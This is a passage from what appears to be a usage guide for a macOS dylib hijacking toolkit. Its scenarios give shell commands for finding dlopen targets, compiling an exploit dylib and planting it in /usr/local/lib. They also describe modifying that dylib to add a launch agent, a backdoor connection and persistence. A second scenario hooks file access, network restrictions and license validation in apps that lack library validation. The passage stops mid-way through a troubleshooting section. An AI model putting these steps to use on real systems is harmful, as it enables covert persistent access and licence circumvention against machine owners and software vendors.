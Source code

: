 ### Scenario 2: Exploiting dlopen for Persistence

**Step 1: Identify dlopen targets**
```bash
sudo ./tools/dlopen_hijack.sh /Applications/TargetApp.app/Contents/MacOS/TargetApp
```

**Step 2: Review and compile the exploit template**
```bash
cd dlopen_exploit_templates_*
gcc -dynamiclib -o "libtarget.dylib" "libtarget.dylib.c"
```

**Step 3: Modify the exploit to add persistence**
Edit libtarget.dylib.c to include code that:
- Creates a launch agent or daemon
- Establishes a backdoor connection
- Maintains access across reboots

**Step 4: Deploy and test**
```bash
sudo cp "libtarget.dylib" "/usr/local/lib/libtarget.dylib"
/Applications/TargetApp.app/Contents/MacOS/TargetApp
```

### Scenario 3: Bypassing Application Controls

**Step 1: Find an application with library validation disabled**
```bash
./tools/dylib_finder.sh /Applications | grep "disable-library-validation"
```

**Step 2: Create a dylib that hooks security functions**
Modify the dylib_hijacking_template.c to hook functions like:
- File access controls
- Network restrictions
- License validation

**Step 3: Deploy the hijacking dylib**
```bash
./tools/auto_hijack.sh /Applications/RestrictedApp.app/Contents/MacOS/RestrictedApp \
  "@rpath/libSecurity.dylib" ./bypass.dylib 3
```

## Troubleshooting

### Common Issues

#### 1. Dylib Not Being Loaded

**Symptoms:**
- No log entries from the injected dylib
- Application launches normally with no evidence of hijacking

**Possible Causes and Solutions:**
